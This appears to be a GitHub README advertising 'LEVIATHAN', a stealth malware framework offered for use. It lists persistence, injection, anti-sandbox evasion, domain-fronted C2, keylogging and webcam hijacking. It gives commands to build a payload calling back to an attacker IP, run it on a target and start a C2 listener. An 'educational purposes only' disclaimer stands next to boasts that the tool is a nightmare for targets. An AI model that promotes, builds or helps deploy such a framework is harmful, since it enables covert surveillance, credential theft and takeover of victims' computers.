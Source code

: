# LEVIATHAN - The Ultimate Stealth Malware Framework

## ⚠️ WARNING: FOR EDUCATIONAL & RESEARCH PURPOSES ONLY ⚠️
This project is intended for cybersecurity research, red teaming, and ethical hacking **only**. Unauthorized use of this software is illegal and punishable by law. The developers assume **no liability** for misuse.

---

## Overview
LEVIATHAN is a **highly modular, stealth-oriented** malware framework written in **C/C++**, designed to achieve **full persistence, anti-detection, and system dominance**. This is not just another RAT—this is a **fucking nightmare** for any target.

It is built to be **undetectable**, **persistent**, and **unstoppable**, making it ideal for red teaming, ethical hacking demonstrations, and advanced malware research.

---

## Features

### Persistence & Stealth
- **Process Injection** → DLL Injection, Process Hollowing, APC Injection.
- **Registry Persistence** → Auto-runs on startup.
- **Scheduled Task Hijacking** → Runs invisibly as a system task.
- **Service Mode Execution** → Operates as a legitimate Windows service.

### Evasion Techniques
- **String & Code Obfuscation** → XOR + AES encryption.
- **Custom Packer** → No reliance on detectable packers like UPX.
- **Anti-VM & Anti-Sandbox** → Evades detection inside VirtualBox, VMware, and Cuckoo.
- **API Unhooking** → Bypasses security software hooks.

### C2 Communication & Control
- **AES/XOR Encrypted Traffic** → No plaintext communication.
- **Domain Fronting** → Uses trusted cloud services to hide C2.
- **Peer-to-Peer C2 Backup** → If main server is down, infected nodes relay commands.

### Advanced Features
- **Keylogging** → Logs and transmits keystrokes.
- **Webcam Hijacking** → Captures webcam footage.
- **File Manipulation** → Upload, download, delete files.
- **Privilege Escalation** → Exploits system vulnerabilities.
- **Self-Destruction Trigger** → Securely wipes itself if needed.

---

## Installation & Setup

### Compile the Builder
LEVIATHAN uses a **custom payload generator** that injects C2 parameters into the malware binary.

```sh
make build
```

### Generate Payload
Run the builder to generate a fully obfuscated, encrypted payload.
```sh
./leviathan-builder -i <YOUR_IP> -p <PORT>
```

### Deploy & Execute
Execute the payload on the target machine. If running manually:
```sh
leviathan.exe
```

### Connect to C2
Launch your C2 server and listen for connections:
```sh
python3 leviathan-c2.py --listen -p <PORT>
```

---

## Configuration
Modify `config.h` to adjust stealth, persistence, and encryption settings.

```cpp
#define ENABLE_KEYLOGGING true
#define ENABLE_WEBCAM_HIJACK false
#define OBFUSCATION_LEVEL 3 // 1-3
#define ENCRYPTION_METHOD AES
```

---

## Uninstall (if you messed up)
If you need to **remove** LEVIATHAN from a system:
```sh
leviathan.exe --self-destruct
```
OR manually remove registry entries, scheduled tasks, and services.

---

## Legal Disclaimer
This project is intended **only for legal security testing and research**. Any unauthorized use is strictly prohibited. The developers are **not responsible for any misuse**.

---

## Future Enhancements
- [ ] **Rootkit-Level Persistence** (Kernel-mode hiding)
- [ ] **AI-Based Evasion** (Automated attack adjustments)
- [ ] **Multi-Platform Support** (Linux & macOS versions)

---

## Credits
Developed by **Loki**, a cybersecurity researcher and ethical hacker dedicated to pushing the limits of malware research. 👁‍🗨


